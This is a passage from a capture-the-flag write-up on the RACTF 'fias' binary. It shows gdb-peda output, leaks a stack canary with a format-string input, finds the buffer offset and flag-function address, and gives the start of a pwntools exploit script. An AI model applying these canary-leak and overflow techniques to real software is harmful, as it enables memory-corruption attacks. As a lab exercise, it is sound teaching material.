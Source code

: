 Running the file in gdb, we can also check that this does leak the canary \(breakpoint at say\_hi as that's where input is taken\):

```text
sasha@kalivm:~/RACTF$ gdb fias
GNU gdb (Debian 9.1-3) 9.1
...
gdb-peda$ b say_hi
Breakpoint 1 at 0x804923e
gdb-peda$ r
```

These two lines of code are important as these actually take the canary from the `eax` register, and put it before the return pointer:

```text
   0x804924c <say_hi+19>:       mov    eax,gs:0x14
=> 0x8049252 <say_hi+25>:       mov    DWORD PTR [ebp-0xc],eax
```

So we can see the canary in the eax register here:

```text
[----------------------------------registers-----------------------------------]
EAX: 0x35131100 
EBX: 0x804c000 --> 0x804bf0c --> 0x1
```

So the canary for this runthrough is `0x35131100` And fast forward to the second `printf` after `gets` which will print our leaked value:

```text
gdb-peda$ 
0x35131100!
```

And they match!

### Finding second offset

Again, I did this via trial and error, and I made sure to use the correct canary of course. Through my trial and error, I found the second offset is **12**, then the next 4 bytes overwrite the return pointer

### Finding return pointer

This was simple, all I needed to do was view the functions, like I did before: `0x080491d2 1 43 sym.flag` So you'll get `0x080491d2`

### Creating local exploit

We now have everything we need to write the exploit, and I'll be using python3 with pwntools. And this is what my local exploit looked like:

```python
from pwn import *

e = ELF("fias")
io = e.process()

io.recvline()    # These recieve all the junk
io.recvline()
io.recvline()
io.recvline()

io.sendline("-%11$p-")            # Sends format string
recieved = io.recvline().decode().split("-")    # Leaks the canary, and recieves it
canary = int(recieved[1],16)        # Convert to hex number
log.info("Canary: " + str(hex(canary)))        # Print canary
io.recvline()    # More junk
```